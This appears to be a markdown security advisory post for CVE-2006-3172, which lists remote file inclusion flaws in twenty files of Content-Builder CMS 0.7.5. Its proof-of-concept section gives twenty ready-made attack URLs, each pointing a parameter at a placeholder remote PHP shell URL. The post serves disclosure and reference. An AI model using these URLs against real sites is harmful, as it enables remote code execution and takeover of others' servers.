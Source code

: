 ```yaml
---
layout: post
title:  "CVE-2006-3172 – Content-Builder CMS 0.7.5 - Remote Command Execution"
date:   2006-06-11 00:00:00
categories: security cve
permalink: post/CVE-2006-3172-content-builder-cms-remote-command-execution/
---
```


### Vendor

[http://www.content-builder.de/][contentbuildercms]

[contentbuildercms]:	http://www.content-builder.de/	"Content-Builder CMS"

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

### Description

Multiple `PHP Remote File Inclusion` (RFI) vulnerabilities in `Content Builder 0.7.5` allow remote attackers to execute arbitrary PHP code via a URL with a trailing slash (/) character in the

1. lang_path parameter to
*	(a) cms/plugins/col_man/column.inc.php,
*	(b) cms/plugins/poll/poll.inc.php,
*	(c) cms/plugins/user_managment/usrPortrait.inc.php,
*	(d) cms/plugins/user_managment/user.inc.php,
*	(e) cms/plugins/media_manager/media.inc.php,
*	(f) cms/plugins/events/permanent.eventMonth.inc.php,
*	(g) cms/plugins/events/events.inc.php,
*	(h) cms/plugins/newsletter2/newsletter.inc.php;
2. path[cb] paramter to
*	(i) modules/guestbook/guestbook.inc.php,
*	(j) modules/shoutbox/shoutBox.php,
*	(k) modules/sitemap/sitemap.inc.php; and the
3. rel parameter to
*	(l) modules/download/overview.inc.php,
*	(m) modules/download/detailView.inc.php,
*	(n) modules/article/fullarticle.inc.php,
*	(o) modules/article/comments.inc.php,
*	(p) modules/article2/overview.inc.php,
*	(q) modules/article2/fullarticle.inc.php,
*	(r) modules/article2/comments.inc.php,
*	(s) modules/headline/headlineBox.php,
*	(t) modules/headline/showHeadline.inc.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

http://example/[cb_path]/cms/plugins/col_man/column.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/poll/poll.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/usrPortrait.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/user.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/media_manager/media.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/permanent.eventMonth.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/events.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/newsletter2/newsletter.inc.php?lang_path=
**~**/
http://example/[cb_path]/modules/guestbook/guestbook.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/shoutbox/shoutBox.php?path[cb]=
**~**/
http://example/[cb_path]/modules/download/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/download/detailView.inc.php?rel=
**~**/
http://example/[cb_path]/modules/sitemap/sitemap.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/article/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/headline/headlineBox.php?rel=
**~**/
http://example/[cb_path]/modules/headline/showHeadline.inc.php?rel=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172][mitre]
* [http://www.securityfocus.com/bid/18404][securityfocus]
* [http://www.osvdb.org/26344][osvdb]
* [http://secunia.com/advisories/20557][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172 "CVE 2006-3172"
[securityfocus]:	http://www.securityfocus.com/bid/18404						"SecurityFocus-18404"
[osvdb]:			http://www.osvdb.org/26344									"OSVDB-26344"
[secunia]:			http://secunia.com/advisories/20557							"Secunia-20557"